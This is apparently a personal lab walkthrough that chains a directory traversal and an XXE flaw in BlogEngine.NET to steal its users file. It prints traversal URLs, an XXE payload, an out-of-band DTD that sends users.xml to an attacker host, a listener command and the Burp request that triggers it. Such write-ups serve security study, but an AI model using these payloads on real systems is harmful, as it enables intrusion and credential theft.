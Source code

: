 
## [CVE-2019-10717](https://github.com/irbishop/CVEs/blob/master/2019-10717/README.md) BlogEngine.NET Directory Traversal / Content Listing.

Reading the info from that repository you can see:

> A directory traversal, CVE-2019-10717, was identified on BlogEngine.NET applications versions 3.3.7 and earlier through the `/api/filemanager` endpoint. This issue reveals the contents of directories in the web root. Authentication is required to exploit this issue.

> `File Manager` is used by the application to show the contents of `~/App_Data/files` and sub-directories in the UI. Submitting requests directly to `/api/filemanager` with a modified `path` parameter reveals directory contents beyond `~/App_Data/files`.

- Check the `<MACHINE IP>blog/api/filemanager?path=`.
	![[Screenshot from 2025-09-12 12-08-35.png|594x282]]

- Check `<MACHINE IP>/blog/api/filemanager?path=/../../`.
	![[Screenshot from 2025-09-12 12-13-04.png|593x199]]
	

- Check `<MACHINE IP>/blog/api/filemanager?path=/../../App_data`.
	![[Screenshot from 2025-09-12 12-20-06.png|592x231]]


## [**CVE-ID: 2018–14485**](https://nvd.nist.gov/vuln/detail/CVE-2018-14485) BlogEngine.NET 3.3 allows XXE attacks via the POST body to metaweblog.axd.


## Look for an exploit.

#Attacking_machine 
```
searchsploit Blogengine
```

![[Screenshot from 2025-09-15 10-47-30.png]]

```
cat /usr/share/exploitdb/exploits/windows/webapps/46106.txt
```

![[Screenshot from 2025-09-15 10-51-17.png]]

This XML is a classic **XXE (XML External Entity)** payload. I’ll explain exactly what it does, why it’s dangerous, how to detect it, and (most importantly) how to fix/mitigate it safely.

```
<?xml version="1.0"?>
<!DOCTYPE ns [
  <!ELEMENT ns ANY>
  <!ENTITY lfi SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<ns>&lfi;</ns>
```

- The Url is the path you have to browse. (In our case `http://<MACHINE IP>/blog/metaweblog.axd`)
- The DOCTYPE declares an external entity named `lfi` that points to a local file: `file:///C:/Windows/System32/drivers/etc/hosts`.
- When an XML parser **resolves external entities** and expands `&lfi;`, the contents of that file are substituted into the XML document.
- If an application parses the XML and returns/stores the parsed content (or sends it somewhere), an attacker can **exfiltrate local files** (local file inclusion), or trigger SSRF/remote requests if the SYSTEM URL points to `http(s)://` or `ftp://`.


## Create a file called `ed.dtd`

#Attacking_machine 
```
<!ENTITY % p1 SYSTEM "file:///C:/inetpub/wwwroot/blog/App_Data/users.xml"> 
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://<ATTACKING MACHINE IP>/EX?%p1;'>">
%p2;
```

- `%p1` is a **parameter entity** whose value is the local file `C:/inetpub/wwroot/blog/App_Data/users.xml`.
    
- `%p2` is another parameter entity whose value _contains_ a definition for a general entity `e1` whose SYSTEM identifier is an `http://` URL pointing at an attacker-controlled host. That URL includes the string `%p1;` — when expanded later, `%p1;` becomes the contents (or a representation) of the local file.
    
- The final `%p2;` expands `%p2`, which defines `e1` with the remote URL. Depending on the parser and how/when entities are resolved, the parser may attempt to fetch that remote URL — causing the local file contents to be sent to the attacker (via the URL or as part of an SMB/HTTP callback). This is a classic **out-of-band (OOB) file exfiltration** pattern using parameter entities and nested entity expansion.

## Run python http.server

Use port 445 because a Firewall blocks other ports.

#Attacking_machine 
```
python3 -m http.server 445
```

## Burp Suite

- Intercept the request `http://<MACHINE IP>/blog/metaweblog.axd`, using BurpSuite.
- Send the request to `Repeater`.
- Add the following code to the request:
```
<?xml version="1.0"?>  
<!DOCTYPE foo SYSTEM "http://<ATTACKING MACHINE IP>:445/ed.dtd">  
<foo>&e1;</foo>
```
![[Screenshot from 2025-09-15 12-34-24.png]]

- Send the request.
- Show the result on python3 terminal.

![[Screenshot from 2025-09-15 12-36-28.png]]

**Next step:** [[Decoding the URL and the users' hashes]]